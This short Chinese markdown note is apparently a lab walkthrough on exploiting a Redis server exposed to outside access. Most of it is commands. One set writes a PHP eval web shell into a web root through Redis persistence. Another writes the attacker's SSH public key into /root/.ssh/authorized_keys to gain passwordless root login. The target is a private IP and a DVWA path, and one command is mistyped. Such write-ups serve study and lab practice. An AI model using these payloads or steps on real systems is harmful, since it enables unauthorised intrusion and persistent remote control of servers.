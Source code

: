 ### 一、漏洞存在条件
1. redis开放外部访问
> 在`redis.conf`绑定为本机ip即可，默认为`127.0.0.1`

### 二、利用过程
1. 使用`nmap`扫描目标IP，但是没有扫描出来，直接用`redis-cli`访问成功

2.  利用redis的持久化功能写入后门脚本（方案一）
```shell
    set "test" "<?php @eval($_POST['123']); ?>" 
    onfig set dir /var/www/dvwa   # 设置持久化路径
    config set dbfilename shell.php   # 设置持久化的文件名
    save
```

3. 利用redis的持久化功能写入authorized_keys，实现免密登录
```shell
    (echo -e "\n\n";cat /home/kali/.ssh/id_rsa.pub;echo -e "\n\n") > temp.txt #读取公钥
    cat temp.txt | redis-cli -h 192.168.0.102 -p 6379 -x set "test"  # 把公钥写入key
    config set dir /root/.ssh   # 设置持久化路径
    config set dbfilename authorized_keys  # 设置持久化的文件名
    save
```